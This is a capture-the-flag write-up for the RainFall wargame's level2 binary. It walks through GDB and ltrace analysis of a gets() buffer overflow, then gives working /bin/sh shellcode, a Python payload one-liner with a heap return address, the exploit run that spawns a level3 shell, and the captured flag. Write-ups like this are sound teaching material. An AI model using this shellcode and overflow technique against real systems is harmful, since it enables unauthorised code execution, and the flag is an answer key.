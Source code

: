 # **Level2**

In this level, we found a binary that takes input and prints it:

```bash
level2@RainFall:~$ ./level2
ewewe
ewewe
level2@RainFall:~$

```

## **Binary Analysis**

Using GDB, we analyzed the binary and found that the `main` function simply calls the function **`p`**:

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret

```

After examining the `p` function, we found that the program uses **`gets()`** to retrieve the input and duplicates it using **`strdup()`**, which allocates memory on the heap:

```nasm
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp        ; reserves 104 bytes on stack
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax  ; eax = buffer address (-76 bytes)
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt> ; read input into buffer
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   ...
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax  ; prepare to duplicate input
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt> ; Duplicate input
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

Using `ltrace`, we determined that **`strdup()`** returns the address **`0x0804a008`**, which is our target address in the heap:

```bash
level2@RainFall:~$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff7b4, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                = 0
gets(0xbffff6bc, 0, 0, 0xb7e5ec73, 0x80482b5)                    = 0xbffff6bc
puts("")                                                          = 1
strdup("")                                                        = 0x0804a008
+++ exited (status 8) +++0
```

## **Vulnerability**

The main vulnerability is the use of **`gets()`**, which allows for a buffer overflow. Although we cannot directly jump to the stack due to the protection check, we can leverage **`strdup()`**, which copies our input to the heap.

## Exploit

To exploit this vulnerability:

1. Create shellcode that spawns a shell.
2. Place the shellcode at the start of our input.
3. Add padding to reach the return address.
4. Overwrite the return address with the heap address where **`strdup()`** copies our input.

**Padding**

The padding is used to fill the remaining buffer space and overwrite the saved EBP:

- **Buffer Size**: 76 bytes.
- **Shellcode Size**: 21 bytes.
- **Padding Size**: `76 - 21 = 55 bytes` (fills the rest of the buffer).
- Additional 4 bytes are needed to overwrite the saved EBP, making the total padding size **59 bytes**.

(The **4 additional bytes** in the padding represent the **saved EBP**, which lies between the buffer and the return address.)

Shellcode Exploit

```bash
# Shellcode to execute /bin/sh (21 bytes)
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

# Padding (59 bytes)
padding = "A" * 59

# Return address (heap address where strdup copies our input)
ret_addr = "\x08\xa0\x04\x08"

# Final exploit
exploit = shellcode + padding + ret_addr
```

**Steps to Execute**

1. Create the exploit file:

```bash
python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit

```

1. Run the exploit:

```bash
cat /tmp/exploit - | ./level2

```

1. Result

```bash
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
^C

```

## Flag

```bash
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```